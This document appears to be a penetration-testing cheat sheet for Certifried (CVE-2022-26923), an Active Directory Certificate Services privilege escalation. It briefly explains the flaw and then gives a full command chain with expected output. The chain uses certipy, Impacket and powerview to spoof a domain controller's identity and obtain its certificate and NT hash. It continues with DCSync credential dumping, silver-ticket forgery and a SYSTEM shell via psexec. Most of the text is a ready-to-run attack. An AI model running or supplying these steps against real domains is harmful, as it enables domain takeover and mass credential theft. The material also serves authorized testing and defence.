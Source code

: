 # Certifried—AD DS Privilege Escalation (CVE-2022-26923)

## Theory

> [!Overview] Title
> **Certifried (CVE-2022-26923)** abuses pre–May 2022 certificate **mapping** behavior. 
> 
> A domain user who can create/control a computer account can clear its SPNs, set its `dNSHostName` to a **target host’s FQDN**, and request a **Machine** template certificate. 
> 
> The CA maps the cert to the spoofed `dNSHostName`, issuing a cert that **authenticates as the target machine** (including a DC). With this machine cert, you can obtain a TGT/NT hash and perform **DCSync** or forge **silver tickets**.

## Requirements

- AD/CA **not fully patched** for CVE-2022-26923 (weak/legacy mapping in effect). A telltale sign during testing is: `Certificate has no object SID` on issuance.
- Ability to **create** or **control** a computer account (default any domain user can create up to 10).
- Network reachability to DC/CA (RPC/Kerberos/LDAP).

### Placeholders

`<DOMAIN>` `<FOREST_DN>` `<DC_IP>` `<CA_NAME>` `<ADCS_HOST_FQDN>` `<USER>` `<PASS>` `<NEW_MACHINE>` `<NEW_MACHINE_PASS>` `<TARGET_HOST_FQDN>` `<PFX_FILE>` `<CCACHE_FILE>` `<NTHASH>` `<DOMAIN_SID>`

---

## Linux

### Quick Vulnerability Probe (weak mapping)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -dc-ip <DC_IP> -template 'User'
# If output shows: "Certificate has no object SID" => no strong mapping, likely vulnerable
```

### Manual Path (Impacket + powerview.py)

#### 1) Create a computer account

```bash
addcomputer.py -computer-name '<NEW_MACHINE>$' -computer-pass '<NEW_MACHINE_PASS>' -dc-ip <DC_IP> '<DOMAIN>/<USER>':'<PASS>'
# Note: this adds no SPNs, so no cleanup needed
```

#### 2) (Optional) Identify target FQDN via certipy

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -stdout -vulnerable
# Note the CA and target host DNS names; choose <TARGET_HOST_FQDN>
```

#### 3) Set `dNSHostName` of the new machine to the **target**

```bash
python3 powerview.py <DOMAIN>/<USER>:'<PASS>'@<DC_IP>
PV > Set-DomainObject -Identity '<NEW_MACHINE>$' -Set dnsHostName="<TARGET_HOST_FQDN>"
# Expect: modified attribute dnshostname for CN=<NEW_MACHINE>,CN=Computers,....
```

#### 4) Request a **Machine** certificate as the spoofed machine

```bash
certipy req -u '<NEW_MACHINE>$' -p '<NEW_MACHINE_PASS>' -dc-ip <DC_IP> -ca '<CA_NAME>' -template 'Machine'
# Expect: Got certificate with DNS Host Name '<TARGET_HOST_FQDN>'
#         Certificate has no object SID
# Saves to '<PFX_FILE>' (e.g., dc.pfx)
```

#### 5) Authenticate with the issued certificate (PKINIT)

```bash
certipy auth -pfx '<PFX_FILE>'
# => Writes Kerberos ccache '<CCACHE_FILE>' and may print NT hash '<NTHASH>'
```

### One-Command Path (all-in certipy)

```bash
certipy account create -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -user <NEW_MACHINE> -dns <TARGET_HOST_FQDN>
# Outputs the generated password and sets dnsHostName to the target

certipy req -u '<NEW_MACHINE>$' -p '<NEW_MACHINE_PASS>' -ca '<CA_NAME>' -template 'Machine' -dc-ip <DC_IP>
# => PFX for '<TARGET_HOST_FQDN>' and no object SID

certipy auth -pfx '<PFX_FILE>'
```

---

## Post-Exploitation

### A) DCSync (if the target was a **DC**)

Using the **TGT/ccache**:

```bash
KRB5CCNAME=<CCACHE_FILE> secretsdump.py -k -no-pass <TARGET_HOST_FQDN>
# Dumps NTDS.DIT secrets (e.g., <DOMAIN>\\Administrator NT hash)
```

Using the **NT hash** directly:

```bash
secretsdump.py '<TARGET_HOST_FQDN_HOSTNAME>$'@<TARGET_HOST_FQDN> -hashes :<NTHASH>
```

### B) Silver Ticket (for non-DC machine certs)

1. Get **Domain SID**:

```bash
lookupsid.py '<TARGET_HOST_FQDN_HOSTNAME>$'@<DC_IP> -hashes :<NTHASH>
# Domain SID: <DOMAIN_SID>
```

2. Forge ticket for an SPN (e.g., CIFS):

```bash
ticketer.py -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn cifs/<TARGET_HOST_FQDN> Administrator
# => Administrator.ccache
```

3. Pass-the-Ticket:

```bash
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass <TARGET_HOST_FQDN>
# Expect SYSTEM shell
```

---

## Notes & Troubleshooting

* If `certipy req` for a user/template shows **no object SID**, strong mapping isn’t enforced — proceed.
* Ensure your created machine remains **SPN-light** before changing `dNSHostName` (Impacket’s `addcomputer.py` behavior helps). If SPNs exist, **clear FQDN-bound SPNs** before changing `dNSHostName`.
* If issuance fails, verify template name (`Machine`) and CA name `<CA_NAME>`; some environments customize template names.
* Kerberos name resolution matters: configure `/etc/hosts` or DNS for `<TARGET_HOST_FQDN>` when using tickets.
